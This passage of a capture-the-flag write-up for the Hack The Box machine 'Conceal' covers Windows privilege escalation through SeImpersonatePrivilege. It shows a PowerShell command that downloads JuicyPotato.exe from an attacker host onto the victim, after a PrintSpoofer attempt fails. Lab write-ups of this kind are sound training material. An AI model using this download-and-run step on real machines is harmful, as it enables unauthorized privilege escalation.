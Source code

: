 
SeImpersonatePrivilege enabled is almost a victory [PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019 | itm4n's blog](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

- `PrintSpoofer64.exe`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2024.png)

Couldn't run, let's try JuicyPotato

- `powershell "(New-Object Net.WebClient).DownloadFile('http://10.10.16.5:8080/JuicyPotato.exe', 'C:\Users\Destitute\Desktop\JuicyPotato.exe')"`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2025.png)
    
- `JuicyPotato.exe`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2026.png)
    